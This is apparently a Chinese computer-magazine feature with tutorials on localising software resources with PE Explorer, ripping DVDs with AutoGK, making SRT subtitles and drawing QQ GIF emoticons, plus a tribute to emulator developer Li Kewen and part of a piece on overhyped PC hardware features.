大多数软件的“资源”都会放在EXE及DLL文件中。如熟悉的压缩工具WinZip，软件中英文资源放在“winzip32.exe”主程序中，而游戏“帝国时代2”的英文资源放在“language.dll”文件中。

下面我们就以功能极为强大的可视化汉化工具PE Explorer(下载地址:http://www.hanzify.org/index.php?Go=Show::List&ID=6447)为例简单进行汉化演示，我们的汉化对象是最近火得不得了的IM软件:Google Talk。

运行PE Explorer，点击菜单“文件→打开文件”，在对话框中选择Google Talk安装目录下的“googletalk.exe”文件。

软件自动载入程序数据，看起来挺复杂的，什么文件头、字段、数值啊，其实完全不用理会这些，直接调用“资源”做汉化吧。

点击菜单“视图→资源”，切换到“资源”视图，我们几乎所有工作都在这里完成。程序文件包含的“资源”均在左栏列表中列出，主要的汉化对象有：“菜单”、“对话框”、“字符串”等。

大多数软件的“资源”都会放在EXE及DLL文件中，但是并不是每一个这样的文件都中都包含“资源”。只有存在“菜单”、“对话框”、“字符串”等内容的文件才是汉化对象。

选择左栏列表中的“菜单”，出现相关资源，点击“110”分支，右侧资源区显示具体内容。PE Explorer自带实时效果预览，用过Google Talk的人可以一眼看出，该“资源”正是Google Talk在任务栏托盘区图标调用的右键菜单。

明确了修改目标，接下来就好办了，将相关英文字符替换为中文即可。双击“资源”视图左栏列表中“110”分支，进入“资源编辑器”。选择左栏相关英文资源，在右栏“标题”区内修改英文为中文即可。修改完成后，点击“确定”按钮，软件弹出“警告”对话框，提示“数据已被修改，你想继续吗？”点击“是”按钮确认返回。接下来，保存修改结果，关闭文件，就可以重新启动Google Talk验证汉化效果了。我们可以看到该右键菜单已是中文界面了。

# 小提示

在进行菜单汉化的时候，我们经常会遇到这样的英文资源，如：“&File”，你如果直接翻译为“文件”就错了。有编程经验的人都知道，“&”符号后面紧跟的字母是这个菜单的快捷键，所以正确的翻译应当是：“文件(&F)”。这样的处理即美观，也是约定俗成，其实你翻译成“(&F)文件”也是没有问题的。带“%”的符号通常也是特殊应用，如“%d people”的正确翻译是“%d 个人”。初步汉化成功，接下来继续扫荡“资源”里的其它英文内容。“对话框”的汉化，看似界面包含的内容很多，其实无论遇到了什么内容，大家只需要记住修改预览中看到的英文字符为中文即可。

“字符串”部分的汉化就更容易了，选定原有英文内容，直接在修改对话框中键入中文即可。

所有文字部分替换完毕就结束了吗？当然不是，汉化要做的彻底，连图片也不能放过。是的，图片也可以“汉化”。“资源”视图列表中，除了“菜单”、“对话框”、“字符串”这些保存文字信息的分支外，还有名为“位图”的分支。这里保存有软件的图片，选择“位图”分支下图片，如“161”，软件会在右侧显示图片预览。该图就是主界面中的软件Logo图标。选择“161”，调用右键菜单，点击“资源另存为”。我们很容易的就提取出软件中的图片，接下来你可以利用图像处理工具，如：Photoshop修改图片上的文字备用。

注意：图片内容可以任意改动，但是图片的颜色模式，图像格式、尺寸等参数请不要做修改。

返回PE Explorer，双击“161”，进入图像编辑模式，点击工具栏“打开”按钮（Ctrl+O），载入修改后的图片，点击“确定”按钮即完成图片替换。

# 小提示

如果某个软件本身就支持切换各种语言包，但其中不包括简体中文的话，说不定有更快捷的方法可以做出一个汉化包。找找软件的安装目录下有没有类似于Languages、lng等名字的子目录或是这样的文件名、后缀名。用记事本打开这些文件，发现了什么？对，资源都在这里啦，逐项用中文替换其中的内容，然后选择另存为某个名字。一个快捷的汉化包就做成了。另外，许多汉化软件汉化过后也会生成类似的*.ini或是*.lng文件，这些文件同样可以通过记事本打开，进行编辑。

由于汉化属于编辑软件内核的行为，稍有不慎就有可能失败，相关事项还请大家注意：

- 1. PE Explorer以及其它类似的汉化工具，都不是包治百病的良药，更多的汉化方法和技术需要我们去摸索。
- 2. 汉化前一定要对原文件做备份，就PE Explorer而言，它有自动备份功能，会在被修改文件同一目录中，生成相同文件名的BAK格式备份。
- 3. 中文译文一般不要超过原英文的长度，一个汉字占用二个字节。

一个简单的汉化教程就到这里了，我们并没有涉及软件脱壳、非标准资源汉化、汉化补丁制作等内容。我们仅仅是对拥有标准“资源”的软件进行了一次小小的内核修改。大家只要稍微细心些，别把关键的变量误删或做错误修改，汉化一般都会成功的。

# 志同道合

汉化新世纪 (http://www.hanzify.org/) 国内汉化的历史虽不长，但汉化人走过的道路却并不平坦。当初知名的汉化站，能够一直坚持办下来的屈指可数。“汉化新世纪”由几位有志于软件中文化的自由汉化人共同创办，目前已经成为国内更新最快、内容最翔实的汉化软件及汉化补丁下载站点。网站的附属论坛人气很旺，高手云集，汉化爱好者一定得去看看。

虚幻时空 (http://ldr.hanzify.org) “汉化新世纪”核心成员吕达嵘的汉化之家，几经改版，现在以Blog的形式出现。吕达嵘是一个非常高产的作者，汉化作品高达600余个。这里不但有他的最新作品，也是了解一个汉化人多面生活的好地方。

# 银色幕布下的灰色边缘

在宽带飞速发展的这几年，网上影院和电影下载站点也是雨后春笋，大家疯狂享受着屏幕上的五光十色。虽然都是在网上提供电影的在线观看或是下载服务，但是这些提供者却不尽相同，有的人纯粹是为了资料收藏、技术研究以及兴趣爱好来制作和提供服务，而另一些人则是一开始就居心叵测，冲着非法利益而去。所以，虽然两种人都多少对影片的版权人多少收到了一些利益侵害，但是前者应该是灰色，后者才是黑色。好了，我们先来简单回顾一些历史。

早些年的时候，由于带宽所限，我们几乎无法在网上找到能提供在线影音服务的网站，即便是有这样的服务商，我们也无法顺心地享受这种服务，缓冲……永远在缓冲。步入ISDN时代以后，网络状况有了很大改善，越来越多的网络运营商开始提供这项服务。

早期我们最为熟悉的就是RealAudio，它就是RealPlayer的前身。随着宽带网络进一步发展，rmvb横空出世，它合理地利用了比特率资源，使rmvb在牺牲少部分你察觉不到的影片质量情况下最大限度地压缩了影片的大小。在在线影音这块大蛋糕上，一向心高气傲的Microsoft自然不会放弃，我们最为熟悉的便是asf格式文件，这个早期Microsoft用于对抗RealNetwork的利器，一直到后来的wma、wmv。但是经过数年的发展，Microsoft却始终无法撼动RealNetwork在这片领域的霸主地位。除了前面说的在线流媒体以外，可供下载的电影也是另一种流行趋势。DVD-Rip，它不是一种文件格式，而是一类文件的统称。说穿了，DVD-Rip就是将DVD通过特殊编码进行压缩处理，生成体积明显减小，而效果接近DVD效果的电影视频。高潮从广为流传的MPEG-4编码——DivX 3.11开始，一部高清晰的DVD能够通过DivX技术以极小的损失进行压缩，无论是在普通光盘中保存，还是通过宽带传送都变得容易起来。随后，与DivX有着数不清恩怨情仇的全新编码、解码软件XviD出现，并且也红极一时。

# 让我们一起来尝试

下面我们来亲自试验一下DVD-Rip的制作。这里推荐使用AutoGK(下载地址http://nj.onlinedown.net/soft/26125.htm)，它是一个大包干似的工具，支持以XviD或DivX格式输出，可以根据设置自动分割文件。除了主程序外，AutoGK中集成了很多其他软件，如VirtualDubMod、AviSynth、DGMPGDec、DGIndex、VobSub。以前需要多个软件配合，繁琐的DVDRip制作流程，通过AutoGK就变得很简单了。

由于某些原因，新版本AutoGK中不再集成复制DVD的工具DVD Decrypter，所以想完美制作DVD-Rip，这一程序请大家另外下载安装（下载地址：HTTP://nj.onlinedown.net/soft/6505.htm）。

- 1. 第一步: 在“Input file”中设置来源文件，软件支持DVD的IFO或VOB文件（如果你已经用DVD Decrypter复制了DVD，就可以在硬盘保存DVD的目录中找相应文件）。
  在“Output file”中设置输出文件的保存路径，有一点请大家注意，AutoGK目前不支持路径及文件名中包含中文字符。按快捷键“Ctrl + F8”可以调出外部字幕（External subs）支持选项，这样就能够很容易创建出内嵌字幕的视频了。
- 2. 第二步: 在“Audio track”中按自己的需要选择所需音轨; 在“Subtitle track”选择内置字幕。
- 3. 第三步: 设置输出文件大小，在“Select output size”中可以看到如下选项:
    - 1. “Predefined size”，预定义视频输出大小，有多种选项供选择。是按照标准700M光盘的容量进行设置，这样发布的视频会自动进行分割，方便用普通光盘保存。
    - 2. “Custom size (MB)”，按照指定文件大小输出视频。
    - 3. “Target quality (in percentage)”，文件大小由输出质量决定，填入百分比即可。
- 4. 第四步: 点击“Add Job”按钮添加新任务，点击“Start”按钮，AutoGK就会在后台自动调用所需程序开始DVD Rip制作工作。

AutoGK高级设置说明，点击主界面“Advanced Settings”按钮，进入高级设置对话框。

- 1. 在“Output resolution settings”中选择输出分辨率，应根据DVD时间、原片比例等因素来综合考虑，没有经验的朋友还是老实选择“Auto width”为佳。
- 2. 在“Output audio type”选择输出音频类型，如果是默认选择“Auto”，一般会把声音转换成MP3，希望声音好一点可以设置成“Original (AC3/DTS/MPA only)”。
- 3. 在“Codec”中选择使用的编码，软件支持XviD、DivX两种视频编码。免费的XviD编码已经集成进软件安装包中了，选择DivX编码需自行安装。

制作DVDrip非常花费时间和占用系统资源，通常采用XviD编码压缩视频，所需时间是源DVD播放时间的1.5 - 2.5倍。大家不妨在临睡前进行转换，在AutoGK中把“Shutdown when done”勾选上，这样转换完成后，系统会自动关机。

# 字幕的翻译仍然是辛苦而灰色的

由于大多数国人都不具备直接观看外语影片的能力，中文字幕就成为我们欣赏外语影片必不可少的东西。电影字幕作为DVD-Rip的一个组成部分，正逐渐得到人们关注。目前DVD-Rip字幕制作的手段早已成熟，只要外语听力或阅读能有所保障，人人都可以加入进来。

当然，目前国内字幕界同样也是一群默默奉献，充满恒心、毅力的人在坚持，希望大家在观赏DVD-Rip电影时，不要忘记这群为电影字幕付出了辛勤汗水的人。

# 字幕的制作

现在比较流行的字幕格式，分为图形格式和文本格式两类，这些字幕格式原本的用途都不相同，不过现在都被拿来配合DVD-Rip发行了。

图形格式字幕，由直接从DVD中提取的idx和sub文件组成（有时也有ifo文件），idx相当于索引文件，里面包括了字幕出现的时间码和字幕显示的属性。sub文件就是字幕数据本身，由于是图片格式，所以无法调节字体，文件比较大，动辄10MB以上。该字幕的好处是可以存放多种语言的字幕，在播放时候选择比较方便。

文本格式字幕，一般通过对图形字幕进行OCR或者手工制作生成，常见的格式主要有srt、ssa或sub。

电影外挂字幕需要一定软件支持，在外挂字幕软件中，最流行的莫过于VobSub。该软件一开始就是为提取DVD中的图形格式字幕而开发的，它很好地配合了DVD-Rip影片的发行，可以为Avi视频提供外挂字幕。由于字幕内容与视频无关，修改字幕内容并不影响影片质量，许多DVD-Rip被特意制作成分离字幕的版本。VobSub完全兼容各种语言，支持众多的字幕格式。除了本身的idx/sub格式外，还支持其他字幕软件生成的srt、sub、psb、smi及ssa格式文件。

正是由于VobSub对于文本格式字幕的支持，让字幕制作变得没有难度，最简单的srt格式字幕只包含时间码和文本。有兴趣的朋友可以用记事本打开手头的srt字幕文件，一看便知。我们试着用srt字幕制作助手（下载地址:http://www.skycn.com/soft/17759.html）来体验一下吧。

软件就一个主窗口，我们添加字幕的所有工作均在此完成。点击“打开电影”按钮，载入需要制作字幕的视频源文件。同其它软件一样，软件也是直接调用系统中的“Windows Media Player”播放器，所以视频播放部分的操作大家都应该比较熟悉。

对于做字幕翻译的人来说，看电影并不是件惬意的事情，完全没有欣赏闲暇了。电影放映至需要添加字幕的位置时，点击“开始计时”按钮，确定字幕开始时间。点击“停止计时”按钮，则确定此段字幕的结束时间，并且电影会自动暂停播放。此时你就可以在文本框中输入字幕内容了，最后点击“添加/修改”按钮，完成了一条字幕的制作。

# 小提示

在字幕翻译中，如果觉得某条翻译有问题，或者时间定位不准确，你可以随时双击右上方字幕列表，重新修改数据。

接下来，继续播放电影，当下一次字幕插入点出现时，重复上述操作，即可添加新的字幕，如此循环往复，直到完成整部电影的字幕翻译工作。

创建srt格式的字幕就这样简单，当然最后可别忘记点击“保存”。

# 志同道合

搜新网（http://www.souxin.com/）专注于流媒体技术研究的网站，这里对于视频编码解决方案的内容涉及很广，有专门的MPEG-4专栏，你有任何关于视频转换方面的问题，都可以来这里看看。
暴风影音官方中文站（http://www.yesure.com/storm/）如果你在DVD-Rip电影播放中遇到任何不能解决的问题，那么建议你来这里看看。这里不仅对“暴风影音”软件做了详细使用说明，还收录有大量与视频播放相关的技术文章。
射手网（http://www.shooter.com.cn/）知名字幕下载网站，字幕库全面，更新即时，拥有目前国内最大字幕库。网站同时也提供电脑音频、视频制作方面的技术文章和相关软件下载。对于想了解DVD-Rip制作相关知识的朋友，这里值得一看。
汉风中文字幕库（http://www.hanstyle.org/）一群网友因为对电影和英语的爱好聚在一起，成立了汉风字幕组，义务为广大网友翻译国外优秀影片。依托汉风字幕组，逐渐形成了拥有许多高质量精品字幕的汉风中文字幕库，这里字幕库更新及时，是寻找精品字幕的好地方。
TLF原创新字幕站（http://tlfsubs.eastgame.net/）最初是人气旺盛的论坛，为著名TLF字幕组的大本营，进而成立专门的字幕下载站。现在TLF已经是集论坛讨论、字幕下载、电影资讯、BT下载为一体的综合站点了。

# QQ动画表情的全民DIY

相信腾讯QQ已经成为现代网民电脑中不可缺少的必备软件之一，从简单枯燥的文字聊天，到彰显个性的QQ动画，QQ带给我们的是一个又一个的新奇和惊喜。

翻阅你的聊天记录，一个个生动的QQ动画总是伴随在方块字左右。如今，QQ动画已经成为一种体现你个性的最好工具。正如一个朋友所言：“是QQ动画促进了GIF动画的发展，掀起了一场动画革命。”虽然有些夸张，但是在GIF动画的发展之路上，QQ动画着实功不可没。

但让，我们在尽情享用这些QQ动画的时候是否应该想想他们从何而来？

# 小提示

ImageReady作为Photoshop捆绑销售的软件，弥补了Photoshop在缺少动画制作功能的不足，Photoshop与ImageReady在菜单栏与各种面板上的排列都很相似，熟悉Photoshop的人很快就能掌握ImageReady的操作，而用psd格式保留分层的源文件，给GIF动画日后修改时更带来了许多方便。

# QQ动画的制作

简单地说，动画就是在一段时间内显示的一系列图像或帧，每一帧较前一帧有轻微的变化，当连续、快速地显示这些帧时会产生运动的错觉。看上去就像是动画一般了。

## 实例一：嘿嘿，抖抖抖！

- 1. 第一步：打开Photoshop 8.0，Ctrl+N新建一张画布，填入合适的长度和宽度（这里我们将长宽设置为20x20像素），分辨率默认为72，如果不是这个数字，请自行更改成72，颜色模式选择8位RGB颜色，背景为透明。
- 2. 第二步：用铅笔、毛笔等工具在画布上画出动画的静态表情，或者导入一个静态的背景透明且大小合适的gif图片，然后选择菜单栏上的“文件→在Imageready中编辑”。
- 3. 第三步：这时，我们的编辑窗口已经从Photoshop自动跳转到Imageready中。在当前图层上点击右键，选择“复制图层”，将当前层原样复制出一个新图层出来。
- 4. 第四步：选中“图层1”，利用小键盘上的方向键微调图层，使图层下方紧贴画布的最下端。再选中“图层1副本”，微调图层，使图层上方紧贴画布的最上端。
- 5. 第五步：动画所需的两个帧已经制作完毕，接下来在“动画”面板上复制一个当前帧（如果你的编辑界面里没有这个面板，那么请在菜单栏里点击“窗口→动画”打开动画面板）。
- 6. 第六步：此时我们选中第一帧，并非想象中的自动选择了第一个图层，而是所有的两个图层都显示在了本帧里，点击“图层”面板里“图层1副本”前面的眼睛将其隐藏，那么我们所编辑的第一帧里将只出现“图层1”了。使用同样的手段在编辑第二帧的时候隐藏掉“图层1”。
- 7. 第七步：万事俱备，只欠东风。在两幅静止的帧之间加入一个交换显示的时间间隔0.1秒，同时将第一帧下方下拉菜单中的“一次”点选为“一直有效”（此步骤的意义在于能使动画不停的循环播放），你的第一个QQ动画闪亮登场！

点击动画面板下方的播放按钮，我们的大作已经开始抖抖抖！不过，仅仅这样还不够，让我们将这个小动画输出成QQ可用的动画表情。点击菜单栏上的“文件→将优化结果储存为”，随意起个名字保存即可。

## 实例二：不爽就撅嘴

在上一个例子中，我们学会了最基本的利用图层整体移动来制作动画，相信大家已经对QQ动画有了一个感性的认识。在这个例子中，我介绍另一种方法，用于制作某些只有画面局部处于运动状态的动画。

- 1. 第一步：画出一张脸孔，它在动画中将是永远静止不动的。
- 2. 第二步：在脸孔上新建一层，用铅笔画出嘴部，也就是动画中不停运动的部分，然后再新建一层，画出另一边嘴角上翘的画面并将其移动到合适位置。
- 3. 第三步：跳转到Imageready，使用实例一中介绍的方法建立两个帧，当然，要保证这两帧中都要有第一层也就是画有面孔那一层的正确显示。
- 4. 第四步：选中第一帧，任意隐藏画有嘴部运动的两层中的其中一层（什么？你忘了怎么隐藏？就是把图层前面的小眼睛去掉），例如，隐藏左边嘴角上翘的那一层。然后选中第二帧，将第一帧中隐藏的左边嘴角上翘的那一层显示出来并隐藏右边嘴角上翘的那一层，然后选择好两帧的交替时间，这个动画就做好了。

## 实例三：高兴得蹦起来

前面介绍的两个例子，都是只使用到两个帧来制作，这样的动画动感和表现力还不够，下面我再给大家介绍一种更为复杂的，利用多个帧呈现出对象做出运动行为的制作方法。

- 1. 第一步：新建一张宽为20，高为40像素的画布，画好需要运动的对象并将其置于画面最下端。
- 2. 第二步：跳转到Imageready，在第一帧的后面新建一个帧，选中图层并将其略微上移几个像素（可使用小键盘上的方向键，例如上移5像素），然后再在此帧后面新建一帧，再将图层上移5个像素（为了保证运动轨迹的流畅均匀，所有图层上移的幅度要一致），以此类推，当图层到达画布顶端的时候将图层同理下移以制造出下落的效果。设置好图层交替时间后这个动画就算完成了。

在理解了GIF动画的基本原理以及掌握了以上几种基础制作方法以后，你就可以熟练的运用各种技巧，加上自己巧妙的构思来制作属于自己的个性化QQ动画了。

## 小提示

知道怎么把我们DIY的动画添加成QQ表情么？在聊天对话框点击“选择表情”按钮，单击表情框左下角的“增加自定义表情”。进入“表情管理器”，选择“自定义表情设置”标签，单击“添加”按钮打开对话框，点击“查找图片”按钮，插入刚才制作的表情图片，单击“确定”。

## 它山之石巧攻玉

如果在网上看到一个非常有趣的GIF动画，我想存在QQ表情里随时随地都可以跟朋友共赏可以么？在图片上点击右键，选择菜单中的“添加到QQ表情”，这样便很方便的将这个动画存入到你的表情库里了（新版QQ功能）。

如果你对这个动画不甚满意，想修改其中的一些东西，那么可以将图片以“另存为”的方式保存在硬盘上，然后用Imageready打开它进行编辑。编辑完成后，利用我们在实例一中介绍到的方法，点击菜单栏上的“文件→将优化结果储存为”来将图片保存为GIF动画，最后用QQ表情管理工具导入这个动画便完成了。

## 小提示

如果要编辑网上的GIF动画，那么一定要将图片导入到Imageready中进行操作，切不可直接导入到Photoshop中去，因为它无法对多帧的动画进行处理，只能编辑该动画的第一帧。

当QQ成为一种时尚，当QQ动画成为一种文化，喜欢装点个性的你还在等待什么呢，赶快加入QQ动画大军吧，说不定某天网上最为流行的QQ动画套图里，就有你的作品。

## 志同道合

经过一段时间的研究和摸索以后，是否在脑海中产生了一个非常优秀的创意却又苦于所学知识有限而无从下手，或者想尝试一下利用Imageready以外的动画制作工具来包装自己的QQ动画呢？我就给大家介绍几个叙述较为详细，适合新手学习的网上教程：
http://www.pconline.com.cn/pcedu/sj/wz/fireworks/0410/469026.html
http://www.yesky.com/SoftChannel/72351172282810368/20040818/1843889.shtml
http://www.wangqi.net/n675c20.aspx
遇到难题了？想找人交流思想和技术？那么“中国GIF网”想必你非去去不可了（http://www.chinagif.net/），当然，不要忘记了官方网站上也有众多的爱好者在线交流哦（http://bbs.qq.com/bbs/bbs.htm）。

97年北京市“四通杯”计算机程序竞赛“四通之星”称号；
第十届全国科技发明博览会金牌；
全国青少年发明创造和科学论文比赛金牌；
北京市青少年科技论文一等奖；
独立开发了中国第一个也是最好的能用的模拟器——DreamNES，其性能与世界上最好的5个模拟器相当。

链接:http://www.pdafans.com/discuz/viewthread.php?tid=92620

## 李可文父母欲出售Dream系列模拟器

李可文的父母决定出售李可文的各个模拟器软件作品，有DreamGBA、DreamGBC、DreamNES，均已经在版权中心注册了版权。出售内容包括版权和源代码。Dream系列模拟器软件可以在PC机和PDA或手机（Symbian操作系统的版本）上运行。

有意者请致电010－5176xxxx 李铁泉

**penguin.jxf**（初级会员）
我觉得他的父母不应该将这个东西商业化，本来模拟器就是一贯免费的路线，想想当年PS模拟器BLEEM的悲惨结局吧。说句公道话吧，希望大家不要生气，DREAM系列目前并不是最好的掌机模拟器，根本没有市场的竞争力可言，还是把它开放继续由高手开发造福大家。

**youren**（初级会员）
你知道可文父母为了给孩子治病花了多少钱吗？对于这个我觉得可能是可文的父母不太懂模拟器知识，否则是不会这样做的……这样应该说也违背了可文的意愿……
从模拟器精神来说个人不赞成这个，可是从良知和道义来说，希望两位老人的晚年能过得好一些……
也许可以由一些模拟器界的朋友集体发起一个集资活动，筹集一些钱买下源代码，然后放出共享，这样做可以说是双赢……
做为可文的朋友我再次默哀……

**jef2002**（认证商家）
但是，如果有人买下了模拟器的代码，就会被这些游戏机厂商告上法庭，因为模拟器如果没有得到厂商的同意而进行开发的话，就有版权问题

**kingsun**（初级会员）
我以前不知道李可文是谁，看到这个帖子后在网上搜索了一下，总算对他有了一点了解，对他的英年早逝（25岁、比我还小）感到深深的惋惜！想想我当初也玩过DreamGBA、DreamGBC、DreamNES，祝愿他在天堂快乐，有电脑玩!
这便是一个年仅二十五岁就写出了中国迄今为止最优秀游戏模拟器程序的程序员在死后所留下的所有。
我站在边缘，我只能沉默。

## 尾声·仍在边缘

专题接近尾声，QQ上还在不停传来爆料声。

摔锅：有个很有名的网站，专门提供各种CPU-Z检测过的贴图，可以帮大家选购好的可以超频的CPU，这个网站也是免费为大家提供信息的，你可以说说。
小特：怎么没有说到Media Player Classic啊？经典好用的免费播放器啊。
Cornel：珊瑚虫和木子板的QQ有没有介绍到？
东方欲晓：那些修改调试非标准版本硬件驱动程序的人你介绍了么？…… ……

不可否认，有太多太多的人在太多太多的领域进行着“边缘”的努力，而我们想要通过一个专题一网打尽显然不太可能。所以只能挑选出一些具有代表性，并且还有适当可操作性的部分来与读者朋友们分享，希望大家能有所收获。在另一方面，我们仍然在敬佩和担忧着站在边缘的人，敬佩的是他们一直坚定地信念，而担忧的是信念还能坚定多久？有多少DVD-Rip和字幕制作者沦为盗版商的俘虏？有多少汉化者从汉化做到了破解？

愿仍在边缘的信念永不被俘！

（达利 易水寒 Ulean Dualface 魂碎 黎叔）

## 关于死去的人

一开始并没有想到我们的故事中会出现这么沉重的话题。只是因为和某人的闲谈中突然问起，在这样一群群默默无闻的人中，有机会成名么？

得到的回答简单明了：“你去死吧，如李可文一般！”

这本来就是个矛盾，既然是群默默无闻的人，又怎么可能成名呢？可文的逝去决不是为了成名，但是确实是因此，他的故事更为人们传道。

以下是摘选的一则网络新闻，发表时间是2004年7月。

## 中国模拟器先驱李可文因病逝世

喜欢模拟的朋友一定对DreamNES不会陌生，这是第一款有国人独立开发的任天堂模拟器。其作者年仅25岁的李可文也被誉为中国模拟器第一人，但是今天却传来了一个所有人不愿听到的消息，李可文因肝病而在7月1日晚22:15不幸逝世。

- 李可文
1979年9月18日生
2004年6月30日毕业于北京大学计算机系
2004年7月1日晚22:15因肝病不幸逝世
曾经荣获：
97年北京市“四通杯”计算机程序竞赛“四通之星”称号；
第十届全国科技发明博览会金牌；
全国青少年发明创造和科学论文比赛金牌；
北京市青少年科技论文一等奖；
独立开发了中国第一个也是最好的能用的模拟器——DreamNES，其性能与世界上最好的5个模拟器相当。

# 硬件领域二十大经典尴尬

厂商宣称的特色技术—不实用！
惯常默认的经典论调—误解！
花瓶似的废物功能—噱头！
我们将在几个常见的硬件领域评选出最为经典的二十个尴尬。一来为大家耳目、正视听，二来也希望让读者朋友们在今后的购买和使用过程中有更正确的观念和思路。

## CPU 经典尴尬

CPU 从很大程度上左右着一台电脑的性能，也左右着我们的心态以及钱包。在这个备受关注的配件上，出现的尴尬其实并不少。主频 300MHz 的 CPU 能被超频到 500MHz，厂商稀里糊涂当了半个冤大头；被“截肢”的 CPU 在市场上火翻了天，它叫赛扬……但是这些尴尬多少都还不够与时俱进，所以我们选了一些更具现实意义的东西展现给大家。

### 经典尴尬奖:Intel 双核 CPU

当选理由:仍然是两条跑道一个门，高速公路也有收费站这个瓶颈啊！

一直以来，CPU 的发展总是电脑世界中最为活跃最为主导的。可是，与过往不同的是，现在 CPU 发展的重点里程碑已经不在高频率身上了。就连一直执着宣称高频率就是高性能象征的 Intel，现在也终于放下频率提升这个包袱，认认真真地着手透过改善 CPU 架构来提升性能了，其产品也摒弃频率标称法而改用性能标称法了。

在目前 CPU 频率提升举步维艰的情况下，双核的应用无疑是提升 CPU 性能的好主意，而实在的产品也充分证明了这个方向的正确性。可是，AMD 的一个“真伪双核论”却在 Intel 双核 CPU 的发展道路上掀起了风波。“真伪论”指出，Intel 的双核 CPU 只是简单地把两颗 CPU 合并在同一芯片之内，透过共享前端总线模式运作，将会导致双核 CPU 内部两个核心之间争抢前端总线带宽资源。

实际上，双核 CPU 本身只是指多个 CPU 协同的工作模式，至于如何协同工作是实现方式的不同，所以并不存在什么真伪之分，从这个严肃的定义来讲，“真伪论”并不成立。至于谁更先进那么一点点，另当别论。而 Intel 的双核也并非真的那么差劲，只是其内部核心之间的通讯方式与 AMD 的有所分别而已——Intel 双核 CPU 的仲裁器设置在 CPU 以外、北桥之中，而 AMD 的同功能模块则置于 CPU 之内。但是，Intel 还是无法避免和掩饰其双核确实稍微落后于对手的尴尬。如果大家觉得比较难以理解，我们可以用比较通俗一点的比喻，前面一大块蛋糕，想要迅速吃掉它，最好的办法是找个人来帮你吃，两张嘴肯定快过一张嘴。但吃法又是个问题，AMD 认为应该两个人一起吃，而 Intel 觉得该轮流吃，它们的区别也就在此了。

此外，这风波也让我们把视线转移到双核 CPU 系统的架构上，我们不难发现另外一个问题：在惟一总线的多核心系统中，共享前端总线本身就意味着争抢带宽。当只有两条跑道一个门时，对于目前的双核心来说，两条跑道一个门还是能过去的，而且由于无须投入巨大的人力物力去重新设计整套架构，也可以算是最高性价比的解决方案。但是，随着更多核心的引入，总线带宽迟早也会成为瓶颈，至于如何解决多条跑道一个门的问题，我们就拭目以待吧。

#### 火速链接

本期 Cfan 加油站《AMD vs Intel 双核心 CPU 技术》一文对双核 CPU 还有更全面的介绍。

### 入围尴尬奖:Intel CPU 省电?

入围理由:很久以来的传说，Intel CPU 比别的产品更省电，传说啊传说!

自 586 时代以来，Intel 的 CPU 在消费者的心目中就建立了高质、稳定等一系列优良的形象，而 AMD CPU 留给我们的则是不兼容、高温、不稳定等一系列负面形象。甚至不少朋友会认为 Intel CPU 更省电，可能是因为大家都熟悉能量守恒定律，认为 AMD CPU 工作时所散发的高温是高耗电所带来的结果。但不管如何，凭借过去的印象而作出 Intel CPU 更省电的论断，是绝对错误的。

实际上，在真实的测试中，建立在高频率基础上的 Intel Pentium 4 CPU 毫无保留地消耗电能，最高耗电居然达到了近 100 瓦。而以低频率高性能为前提的 AMD Athlon 64 CPU，最高耗电也小于 90 瓦。Intel 与 AMD CPU 之间的总体差距在 10 瓦 ~ 20 瓦之间，可见，Intel CPU 省电的说法是不对的，这明显是一个历史与现实相悖的尴尬。

## 板卡经典尴尬

在板卡领域，入围经典尴尬的是 “BIOS 防毒功能”、“显卡 SLI 技术”、“7 声道输出”。这三位可谓各有特色。显卡 SLI 技术不是头一次出现，当然也不是头一次消失，诗意一点说，如流星般转瞬即逝，通俗说还没满月就被亲娘扔了。再说主板附带的 7 声道输出功能，这也是个挺莫名其妙的事情，且不说电脑上究竟有多少应用需要 7 声道输出，光想想有多少老百姓家里头能给电脑挪出那 7 声道音响的空间啊？当然，我不是说绝对没有。但是经过我们反复讨论，还是决定把经典的位置留给 BIOS 防毒功能。试想一下，有这么一个功能，默认关闭，一旦打开除了会给系统带来若干莫名其妙的故障以外没有任何作用。可是这个功能从上个世纪末到现在，几乎出现在每一块主板上，能不佩服？

### 经典尴尬奖:BIOS 防毒功能

当选理由:如此无用的功能居然能够坚挺到二十一世纪还屹立不倒，当之无愧。

BIOS 全名为 Basic Input Output System，基本输入/输出系统，是整个电脑系统中十分重要的一个基础组成部分，开机以后所有主要硬件的识别和初始化工作，例如你的 CPU 频率应该是多少、倍频是多少、电压是多少……都由它一手包办。BIOS 一旦故障罢工，整合强悍的电脑就会立刻变成一堆废沙（各硬件 PCB 板的主要成分都是硅—沙的主要成分之一，而不是铁哦）！

已经不记得是从何年何月开始，主板 BIOS 中就出现了这么一个名字：“Virus Warning”（个别也称作 “Anti-Virus Protection” 等），它就是 BIOS 的防毒功能了。顾名思义，这个功能是为了预防病毒侵害而设的。它对 BIOS 本身和磁盘引导区有一定的保护功能，可以对破坏 BIOS、硬盘引导扇区与文件分配表的病毒起到一定的防范作用。但是这个功能在很多主板上都是默认关闭的，尤其是在 586 时代等早期的主板上。究其原因何在？就是因为它是基于最基层的硬件防护，甚至会拒绝包括非病毒造成的众多 BIOS/ 磁盘引导区操作，这意味着什么？意味着就连安装操作系统、使用 Ghost 恢复磁盘这些工作都无法正常进行。而在另外一些特殊的情况下，例如使用非板载磁盘控制器（如 SCSI、ATA 扩展卡等）时，BIOS 防毒功能却又鞭长莫及。所以，极端地说：BIOS 防毒功能只能是一个伟大的废物。

#### 小贴士

BIOS 其实也就是一套程序，所有的功能和选项组合在一起，然后放进一个打包文件 *.bin，于是 BIOS 的内容就诞生了。通过特定的刷写工具，把 *.bin 文件刷到 BIOS 中，这就是我们 BIOS 升级的原理。其实我们还可以借助 cbrom.exe 这个工具把 BIOS 的 *.bin 文件解剖，然后把其中关于病毒防护的选项去掉，再重新刷写到 BIOS 中，以后就不再会见这个选项了。不过这项工作有一定的危险性，我们不建议每位读者都去尝试，如果您比较熟悉 BIOS 的刷新，或者身边有高人指点，那么这么 DIY 一把也无妨。

### 入围尴尬奖:SLI，显卡的短暂解体与迅速回归

入围理由: 在 SLI 技术热潮几个月过后，单卡双核的显卡悄然出现。SLI 也就成了一个玩笑。

